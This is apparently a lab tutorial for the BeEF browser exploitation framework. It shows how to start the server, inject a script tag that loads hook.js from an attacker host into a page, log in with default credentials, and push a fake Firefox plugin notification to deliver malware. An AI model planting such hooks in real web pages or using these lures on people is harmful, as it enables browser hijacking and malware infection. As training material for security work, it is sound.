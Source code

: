 
BeEF
============

Website
-------

<https://beefproject.com>

Description
-----------

BeEF, The Browser Exploitation Framework Project is a tool for the pwnage of one of the 
underexplored frontiers in information security, the web browser.

Install Location
----------------

`/opt/beef`

Usage
-----

BeEF uses javascript to "hook" one or more browsers before attempting to leverage its access for 
further exploitation.

Video Walkthrough
-----------------

<video controls>
  <source src="Videos/1_550_BeEF.mp4">
  <source src="https://onedrive.live.com/download.aspx?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155679&canary=">
 <p>Your browser does not support html5 video.</p>
</video>

Example 1: Hooking a Web Browser
--------------------------------

First change into the BeEF install directory:

`~$` **`cd /opt/beef`**

Next launch BeEF like so:

`/opt/beef$` **`sudo ./beef`**

        [14:00:53][*] Bind socket [imapeudora1] listening on [0.0.0.0:2000].
        [14:00:53][*] Browser Exploitation Framework (BeEF) 0.4.4.9-alpha
        [14:00:53]    |   Twit: @beefproject
        [14:00:53]    |   Site: http://beefproject.com
        [14:00:53]    |   Blog: http://blog.beefproject.com
        [14:00:53]    |_  Wiki: https://github.com/beefproject/beef/wiki
        [14:00:53][*] Project Creator: Wade Alcorn (@WadeAlcorn)
        [14:00:54][*] BeEF is loading. Wait a few seconds...
        [14:01:14][*] 10 extensions enabled.
        [14:01:14][*] 191 modules enabled.
        [14:01:14][*] 2 network interfaces were detected.
        [14:01:14][+] running on network interface: 127.0.0.1
        [14:01:14]    |   Hook URL: http://127.0.0.1:3000/hook.js
        [14:01:14]    |_  UI URL:   http://127.0.0.1:3000/ui/panel
        [14:01:14][+] running on network interface: 192.168.1.109
        [14:01:14]    |   Hook URL: http://192.168.1.109:3000/hook.js
        [14:01:14]    |_  UI URL:   http://192.168.1.109:3000/ui/panel
        [14:01:14][*] RESTful API key: 4bfb70558017e0a2362021864acd445f0d51882d
        [14:01:14][*] HTTP Proxy: http://127.0.0.1:6789
        [14:01:14][*] BeEF server started (press control+c to stop)

Now that we have BeEF listening for connections let's embed the javascript hook in a page and get 
our target to browse to it.

All you need to do to embed the javascript hook on any page is to insert a single line of html 
like this:

`<script src='http://192.168.1.109:3000/hook.js'></script>`

So if you have an html page that you would like to embed into, feel free.

However, we have already created a page which performs dynamic embedding of the BeEF hook.


This page is located at: /var/www/html/beef/hook.php
Just insert this line to it:

`<script src='http://192.168.1.109:3000/hook.js'></script>`


Open up a new Firefox instance by either running this command:

`~$` **`firefox & `**

Or by navigating `Launch Menu > Internet > Firefox Web Browser`

![](Beef_files/Image_001.png)

Once you have Firefox running let's visit the target page and get our browser hooked.

Load up [http://127.0.0.1/beef/hook.php](http://127.0.0.1/beef/hook.php)

![](Beef_files/Image_002.png)

You shouldn't see anything more than a default, blank, boring page.

Now open up a new tab and navigate to the BeEF UI.  This can be accomplished by either 
directly accessing the url [http://127.0.0.1:3000/ui/panel](http://127.0.0.1:3000/ui/panel)
or by visiting [http://127.0.0.1](http://127.0.0.1) and clicking the link **BeEF (Console)**.

![](Beef_files/Image_003.png)

Authenticate:

    Username:    beef
    Password:    beef

After authentication you should be able to see your hooked browser on the left hand side 
under "Online Browsers"

![](Beef_files/Image_004.png)

And that's it, you have successfully hooked a web browser.

The browser will remain hooked as long as the tab it has open to your page remains as such.

To see some example of what we can do with a hooked browser, continue on to 
[Example 2: Browser Based Exploitation With BeEF].

Example 2: Browser Based Exploitation With BeEF
-----------------------------------------------

Assuming you already have a hooked web browser, let's take a look at some things you can do with it.

Open the BeEF console by either navigating directly to [http://127.0.0.1/ui/panel](http://127.0.0.1/ui/panel)
or visiting [http://127.0.0.1](http://127.0.0.1) and clicking the link **BeEF (Console)**.

![](Beef_files/Image_004.png)

To get started click on your hooked web browser.  This should bring up details about your selected 
browser in the multi-tabbed menu on the right of the console.

![](Beef_files/Image_005.png)

These details can help you tailor attacks to your victim's browser.

Let's run a few commands.  Select the commands tab.

![](Beef_files/Image_006.png)

Now expand the module tree

Select `Social Engineering > Fake Notification Bar (Firefox)`

![](Beef_files/Image_007.png)

This should open up a menu on the right.  Leave all the options default and click `Execute`

![](Beef_files/Image_008.png)

After a few seconds, the hooked browser should see something similar to this.

![](Beef_files/Image_009.png)

If they install the plugin, they are pwned.
It should be noted that this method can be used to deliver anything, not just the default 
"malicious plugin."  This could easily be leverage to install fully fledged malware on the system, 
simply by updating the module options before execution.

There are tons of other modules available in BeEF, don't stop here. Get exploring.

